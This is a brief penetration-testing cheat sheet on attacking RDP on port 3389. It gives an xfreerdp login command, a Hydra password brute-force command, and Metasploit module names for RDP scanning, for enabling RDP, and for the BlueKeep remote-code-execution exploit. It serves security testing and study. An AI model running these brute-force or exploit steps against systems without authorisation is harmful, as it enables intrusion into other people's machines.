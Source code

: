 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 3389 -> RDP

## XfreeRDP

is an X11 _<mark style="color:green;">Remote Desktop Protocol</mark>_ (RDP) client which is part of the FreeRDP project.

```bash
# Connect with AUTHENTICATION
xfreerdp /u:Administrator /p:password123 /v:$IP:$PORT
```

## Hydra

is a brute force tool that is installed in Kali Linux by default. It can brute force the password/user's file list in several protocols.

```bash
hydra -l "Administrator" -P /wordlists/passwords.txt rdp://$IP -s $PORT
```

## MSFconsole

is a framework that holds many exploits, backdoors, scanners, etc. This is also known as _<mark style="color:green;">Metasploit</mark>_, by default, it is installed on Kali Linux.

```
# Checking RDP present, none default `port:3389`
auxiliary/scanner/rdp/rdp_scanner

# Enabling RDP
post/windows/manage/enable_rdp

# Scan OS, if it's vulnerable to bluekeep
auxiliary/scanner/cve_2019_0708_bluekeep

# Exploit the bluekeep (64 bit)
exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```
